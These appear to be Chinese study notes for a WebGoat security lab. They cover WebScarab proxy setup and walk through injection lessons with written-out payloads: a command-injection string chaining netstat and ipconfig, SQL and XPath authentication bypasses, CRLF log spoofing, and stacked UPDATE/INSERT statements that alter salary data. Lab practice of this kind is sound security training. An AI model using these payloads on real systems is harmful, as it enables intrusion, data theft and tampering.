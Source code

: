 # Webscrab

在Tools中选择Reveal Hidden FIelds和Use full-featured interface，**重启后才能生效**。

默认监听的端口号为8008.可以**在Proxy中进行修改**，不过首先需要选中，点击旁边的stop停止监听。修改为9999，修改后**可以在Messages一栏中查看运行日志**。不过需要对应在**控制面板(-网络和internet-网络和共享中心)-internet选项-连接-局域网设置-代理服务器**中设置系统代理，即为LAN使用代理服务器修改端口号为9999。**注意需要取消对于本地地址不使用代理服务器的√**。

修改完成后，就能发现原来是Listener.run，现在变成了Listener.listen

~~~
参考下面的进行了配置
https://www.jianshu.com/p/0097d27a269e
webscrab
https://blog.csdn.net/ssdsafsdsd/article/details/40594261
https://cloud.tencent.com/developer/article/1123547
~~~

在浏览器的URL一栏中输入地址，就会跳出Edit Response界面，在这个界面中，可以进行修改。做出修改后，**单击Accept changes就可以将修改后的内容发送到服务器上**。如果Cancel changes，就会发送原始的请求。如果根本不想给服务器发送一个请求，可以选择Abort request，向浏览器返回一个错误。如果打开了多个拦截窗口，可以使用Cancel ALL intercepts释放所有的请求。**如果在Proxy-Manual Edit中取消勾选Intercept request就不会进行拦截了**。在Manual Edit中有Exclude paths matching，后面跟的是正则表达式，用于匹配请求的URL，如果匹配，请求就不会被拦截。

可以试试使用**IE浏览器**打开Webgoat界面。



# Injection

命令注入攻击对于任何参数驱动的网站都是一个威胁。

## Command Injection

截取后在末尾添加

~~~
" & netstat -an & config
~~~

因为原来是执行

~~~
页面提示的是
ExecResults for 'cmd.exe /c type "E:\safe\WebGoat-5.4\tomcat\webapps\WebGoat\lesson_plans\English\AccessControlMatrix.html"'
执行的内容是单引号的部分，即
cmd.exe /c type "E:\safe\WebGoat-5.4\tomcat\webapps\WebGoat\lesson_plans\English\AccessControlMatrix.html"

添加后就执行
cmd.exe /c type "E:\safe\WebGoat-5.4\tomcat\webapps\WebGoat\lesson_plans\English\AccessControlMatrix.html" & netstat -an & ipconfig
~~~

## Numeric SQL Injection

在SQL语句中增加 or 1=1，就能过跳过筛选，获取全部的内容。



## Log Spoofing

在输入的用户名称中smith修改为

~~~
smith%0d%0alogin succeeded for the username: smith
会显示login succeeded for the username: smith
~~~



## XPATH Injection

XPath Injection类似SQL注入。

~~~xquery
XPath query

String dir = s.getContext().getRealPath("/lessons/XPATHInjection/EmployeesData.xml");
File d = new File(dir);
XPathFactory factory = XPathFactory.newInstance();
XPath xPath = factory.newXPath();
InputSource inputSource = new InputSource(new FileInputStream(d));
String expression = "/employees/employee[loginID/text()='" + username + "' and passwd/text()='" + password + "']";
nodes = (NodeList) xPath.evaluate(expression, inputSource, XPathConstants.NODESET);
~~~

但是是需要用到字符串的引号.

~~~xquery
Mike' or 1=1 or 'a'='a

服务器的解释方法是
expression = "/employees/employee[ ( loginID/text()='Smith' or 1=1 ) OR ( 'a'='a' and passwd/text()='password' ) ]"
~~~



## string SQL Injection

输入字符的SQL注入，因为是获取字符，所以可以在之前数字的前提下增加引号。

~~~sql
//输入为Erwon的情况
SELECT * FROM user_data WHERE last_name = 'Erwon' 

//输入为Erwon，拦截后增加' or '1'='1
SELECT * FROM user_data WHERE last_name = 'Erwon' or '1'='1'

~~~



## LAB: SQL Injcetion

~~~sql
"SELECT * FROM employee WHERE userid = " + userId + " and password = " + password
~~~

但是这里有长度限制，需要使用webscarab进行移除。

~~~sql
"SELECT * FROM employee WHERE userid = " + userId + " and password = " + password
~~~



## Modify Data with SQL Injection

可以使用SQL注入修改数据。只需要使用;(semicolon)

~~~sql
jsmith';UPDATE salaries SET salary=99999 WHERE userid='jsmith'--这是评论
~~~



## ADD Data with SQL Injection

使用INSERT语句。

~~~sql
bar';INSERT INTO salaries VALUES('goa',99999);--插入用户名为goa，薪资为99999的一条记录
~~~



## Database Backdoors

使用SQL注入实现大于一条的SQL语句。



# XSS

